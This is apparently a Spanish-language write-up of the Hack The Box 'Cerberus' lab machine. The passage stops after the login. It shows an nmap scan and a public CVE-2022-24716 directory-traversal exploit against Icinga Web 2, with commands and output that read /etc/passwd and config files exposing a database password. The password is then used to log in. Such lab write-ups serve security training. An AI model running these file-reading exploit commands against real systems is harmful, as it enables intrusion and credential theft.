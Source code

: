 ```yaml
---
title: Cerberus
date: 2023-03-23 13:25:30 +/-TTTT
categories: [HTB MACHINES, Windows]
tags: []     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.92 scan initiated Sat Mar 18 16:35:58 2023 as: nmap -sCV -p8080 -Pn -oN targeted 10.129.40.88
Nmap scan report for 10.129.40.88
Host is up (0.31s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
|_http-open-proxy: Proxy might be redirecting requests

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 18 16:36:08 2023 -- 1 IP address (1 host up) scanned in 10.09 seconds
```
En primeras nos encontramos con una página web donde nos pide logearnos, intentamos credenciales por defecto pero no hubo éxito. Dado que se trata de icinga web 2 buscamos vulenrabilidades sobre esta herramienta de monitoreo.

![imagen1](/assets/images/Cerberus/cerberus1.png)

Buscamos las más recientes vulnerabilidades y encontramos una lista en esta [página](https://www.cvedetails.com/vulnerability-list/vendor_id-11416/Icinga.html), podemos probar con la última vulnerabilidad encontrada que se trata de Directory Traversal, buscando por esa CVE encontramos [este](https://github.com/JacobEbben/CVE-2022-24716) repositorio que tiene un exploit. Procedemos a descargarlo e intentamos ejecutarlo.

```shell
❯ python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin
```
Vemos que podemos visualizar correctamente los archivos, antes de enumerar los archivos comunes de la máquina, procedemos a buscar los archivos de configuración de incinga. En su página principal nos menciona la ruta hacia authentication.ini y dentro de ese archivo nos menciona que dentro de resources.ini nos muestar información sobre la base de datos utilizada.

```shell
❯ python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/authentication.ini
[icingaweb2]
backend = "db"
resource = "icingaweb2"

❯ python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/resources.ini
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"
```
Probamos las credenciales y son válidas, dentro podemos ver la versión 2.9.2 de icinga.

![imagen2](/assets/images/Cerberus/cerberus2.png)
